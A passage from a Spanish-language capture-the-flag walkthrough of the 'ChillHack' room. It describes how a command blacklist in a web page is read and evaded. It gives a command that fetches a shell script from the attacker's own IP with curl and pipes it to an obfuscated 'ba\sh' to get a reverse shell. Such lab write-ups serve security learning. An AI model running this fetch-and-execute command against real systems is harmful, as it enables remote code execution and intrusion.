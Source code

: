         <img src="../assets/images/Rooms/ChillHack/image 10_2.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:800px">
      </div>
    </td>
  </tr>
</table>

Vemos que si escapamos el comando `cat /index.php` encontramos los comandos que no se pueden ejecutar de manera normal.
Por lo que, podemos intentar ejecutar una <em>reverse shell</em> desde la página web:
<div style="text-align:center;">
  <img src="../assets/images/Rooms/ChillHack/image 12.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:800px">
</div>

Ahora, en la web vamos a ejecutar el comando:
<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      Bash
      <button class="copy-button" data-code="bash">Copiar</button>
    </div>
    <pre><code class="language-bash" >curl http://ip_nuestra/nombre_shell | ba\sh</code></pre>
  </div>
</div>
